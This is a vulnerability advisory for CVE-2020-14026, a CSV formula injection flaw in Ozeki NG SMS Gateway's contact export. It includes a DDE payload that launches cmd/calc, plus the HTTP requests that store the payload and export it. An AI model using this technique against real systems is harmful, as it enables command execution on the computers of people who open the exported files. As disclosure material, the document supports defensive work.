

# CVE-2020-14026: Ozeki SMS Gateway Formula Injection

CSV Injection (aka Excel Macro Injection or Formula Injection) exists in the "Export Contacts" feature in Ozeki NG SMS Gateway 4.17.1 through 4.17.6 via a value that is mishandled in a CSV export.
<br/>
By leveraging this vulnerability, if a victim opens the affected spreadsheet files and ignores the security warnings, it will allow an attacker to run commands on the victim computer on behalf of the user who opened the downloaded CSV file. 

### Proof Of Concept:

It was possible to inject the following payload into the fields of "New Contact" form:
```
=cmd|' /C calc.exe!'A1'
```


The following request shows an example of the stored payload:
```
POST /default HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 294
Cookie: usrckenc=4ef***TRUNCATED***712
 
mode=addcontact&layout=MENUVIEW&MENU=COMPOSEMENU2&MAIN=COMPOSE&OZFORM_CONTACTCOMMENT=%3dcmd|'+/C+calc.exe'!'A1'&OZFORM_CONTACTOTHER=&OZFORM_CONTACTIM=&OZFORM_CONTACTEMAIL=&OZFORM_CONTACTFAX=&OZFORM_CONTACTTEL=&OZFORM_CONTACTMOBILE=&OZFORM_CONTACTNAME=%3dcmd|'+/C+calc.exe'!'A1'&OZFORM_BUTTON=OK
```

After the victim user used the affected functionality, the generated file contained the following data:
```
Name; Mobile; Telephone; Fax; Email; Im; Other; Comment; Group
=cmd|' /C calc.exe'!'A1'; ; ; ; ; ; ; =cmd|' /C calc.exe'!'A1'; 
```

Request to export the address book in CSV Format: 
```
GET /admin_addressbook_all_contacts.csv?layout=EMPTY&MAIN=ADDRESSBOOKMENU&user=admin&selectedgroup=All+contacts&format=csv HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36 
Cookie: usrckenc=4ef***TRUNCATED***712
```

Response:
```
HTTP/1.1 200 OK
Content-Length: 130
Content-Type: text/csv; charset=utf-8
Last-Modified: Tue, 09 Jun 2020 13:28:59 GMT
Server: OzekiNG/4.17.1 Microsoft-HTTPAPI/2.0
Date: Tue, 09 Jun 2020 10:28:59 GMT

Name; Mobile; Telephone; Fax; Email; Im; Other; Comment; Group
=cmd|' /C calc.exe'!'A1'; ; ; ; ; ; ; =cmd|' /C calc.exe'!'A1'; 
```

When the victim opened the file in Microsoft Excel (which is the default application for viewing CSV files in most cases), and ignored the security alerts, the attacker's code was executed in the operating system of the victim user (e.g. the built-in calculator application started):


